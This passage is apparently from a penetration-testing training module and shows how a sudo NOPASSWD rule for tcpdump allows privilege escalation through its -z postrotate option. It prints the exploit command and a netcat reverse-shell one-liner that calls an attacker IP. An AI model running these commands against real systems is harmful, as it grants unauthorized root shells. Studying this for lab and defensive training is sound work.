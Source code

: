 ```shell-session
htb_student@NIX02:~$ sudo -l

Matching Defaults entries for sysadm on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sysadm may run the following commands on NIX02:
    (root) NOPASSWD: /usr/sbin/tcpdump
```

It is easy to misconfigure this. For example, a user may be granted root-level permissions without requiring a password. Or the permitted command line might be specified too loosely, allowing us to run a program in an unintended way, resulting is privilege escalation. For example, if the sudoers file is edited to grant a user the right to run a command such as `tcpdump` per the following entry in the sudoers file: `(ALL) NOPASSWD: /usr/sbin/tcpdump` an attacker could leverage this to take advantage of a the **postrotate-command** option.

Sudo Rights Abuse

```shell-session
htb_student@NIX02:~$ man tcpdump

<SNIP> 
-z postrorate-command              

Used in conjunction with the -C or -G options, this will make `tcpdump` run " postrotate-command file " where the file is the savefile being closed after each rotation. For example, specifying -z gzip or -z bzip2 will compress each savefile using gzip or bzip2.
```

By specifying the `-z` flag, an attacker could use `tcpdump` to execute a shell script, gain a reverse shell as the root user or run other privileged commands. For example, an attacker could create the shell script `.test` containing a reverse shell and execute it as follows:

Sudo Rights Abuse

```shell-session
htb_student@NIX02:~$ sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```

Let's try this out. First, make a file to execute with the `postrotate-command`, adding a simple reverse shell one-liner.

Sudo Rights Abuse

```shell-session
htb_student@NIX02:~$ cat /tmp/.test

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 443 >/tmp/f
```

Next, start a `netcat` listener on our attacking box run `tcpdump` as root with the `postrotate-command`. If all goes to plan, we will receive a root reverse shell connection.

Sudo Rights Abuse

```shell-session
htb_student@NIX02:~$ sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root

dropped privs to root
tcpdump: listening on ens192, link-type EN10MB (Ethernet), capture size 262144 bytes
Maximum file limit reached: 1
1 packet captured
6 packets received by filter
compress_savefile: execlp(/tmp/.test, /dev/null) failed: Permission denied
0 packets dropped by kernel
```

